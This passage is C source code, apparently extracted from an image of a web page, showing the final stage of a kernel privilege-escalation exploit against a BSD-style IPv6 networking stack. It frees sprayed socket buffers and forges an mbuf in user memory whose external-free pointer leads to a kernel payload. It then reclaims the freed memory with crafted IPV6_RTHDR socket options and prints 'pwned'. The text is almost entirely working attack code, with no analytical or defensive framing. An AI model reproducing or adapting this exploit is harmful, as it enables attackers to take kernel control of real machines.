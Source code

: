     print_mbuf_addr(socks[bad1]);
    printf("-0 ");
    fflush(stdout);
    print_mbuf_addr(socks[bad2]);
    for(int i = 0; i < SMALL_SPRAY_SIZE; i++)
    {
        printf("%d ", i);
        fflush(stdout);
        print_mbuf_addr(small_spray[i]);
    }*/
    for(int i = SMALL_SPRAY_SIZE-1; i >= 0; i--)
        pop_mbuf(small_spray, i);
    pop_mbuf(socks, bad1);
    for(int i = SPRAY_SIZE-1; i >= 0; i--)
        if(i != bad1 && i != bad2)
            pop_mbuf(socks, i);
    //print_mbuf_addr(socks[bad2]);
    void* ul_buf = (void*)userland_spray();
    unsigned char rthdr[1016];
    build_rthdr((char*)rthdr, sizeof(rthdr));
    rthdr[0] = 0;
    rthdr[3] = rthdr[1] / 2;
    rthdr[4] = 0x90;
    *(uint32_t*)(rthdr+0x1c) = 0x40000; //M_NOFREE
    unsigned char* mbuf_fake = mmap_at(*(void**)rthdr, 0x100);
    *(uint32_t*)(mbuf_fake+0x1c) = 0x40001; //M_NOFREE|M_EXT
    *(uintptr_t*)(mbuf_fake+0x58) = 0xffff800041414141ull;
    *(uintptr_t*)(mbuf_fake+0x60) = (uintptr_t)&kernel_payload;
    *(uintptr_t*)(mbuf_fake+0x68) = socks[bad2]; //ext_arg1
    int fake_refcnt = 1;
    *(void**)(mbuf_fake+0x80) = &fake_refcnt;
    *(int*)(mbuf_fake+0x88) = 400;
    for(int i = 256; i < sizeof(rthdr); i++)
        rthdr[i] = rthdr[i % 256];
    printf("crafted fake mbuf in userspace\n");
    /*for(int i = 4; i < sizeof(rthdr); i++)
        rthdr[i] = 0x41;*/
    for(int i = 0; i < HUGE_SPRAY_SIZE; i++)
        setsockopt(huge_spray[i], IPPROTO_IPV6, IPV6_RTHDR, rthdr, sizeof(rthdr));
    for(int i = 0; i < SPRAY_SIZE; i++)
        setsockopt(socks[i], IPPROTO_IPV6, IPV6_RTHDR, rthdr, sizeof(rthdr));
    for(int i = 0; i < SMALL_SPRAY_SIZE; i++)
        setsockopt(small_spray[i], IPPROTO_IPV6, IPV6_RTHDR, rthdr, sizeof(rthdr));
    //print_mbuf_addr(socks[bad2]);
    pop_mbuf(socks, bad2);
    close(socks[bad1]);
    close(socks[bad2]);
    printf("pwned\n");
    munmap(ul_buf, 1L<<33);
    return 0;
}  </script>
</body>
</html>  
